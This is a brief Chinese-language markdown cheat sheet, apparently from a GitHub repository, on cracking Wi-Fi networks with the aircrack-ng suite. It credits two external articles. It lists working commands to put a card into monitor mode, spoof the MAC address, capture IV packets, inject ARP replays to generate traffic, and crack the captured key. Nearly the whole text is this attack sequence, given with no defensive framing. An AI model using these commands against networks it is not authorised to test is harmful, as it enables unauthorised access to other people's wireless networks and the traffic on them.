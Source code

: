 # 无线破解

[引用](http://netsecurity.51cto.com/art/201105/264844_all.htm)      感谢！
[简书](http://www.jianshu.com/p/fd16236057df)        感谢！

工具:  
**aircrack-ng全家桶: airmon-ng airodump-ng aireplay-ng aircrack-ng**  
[工具使用](https://www.path8.net/tn/archives/40)    感谢！

## 开启网卡监听模式  

> - airmon-ng start wlan0

## 改变网卡MAC  

> -macchanger -m 00:11:22:33:44:55 wlan0mon

## 扫描与抓包  

> - airodump-ng wlan0mon  
> - airodump-ng --ivs -w xxxx -c channel_num device 用于抓取特定频道的数据包以ivs文件保存  
> - aireplay-ng -3 -b AP'MAC -h Client'MAC device 用于使用ARP注入来产生大量数据包，配合airodump-ng使用  

## 解包

> - aircrack-ng xxxx.ivs  进行解包
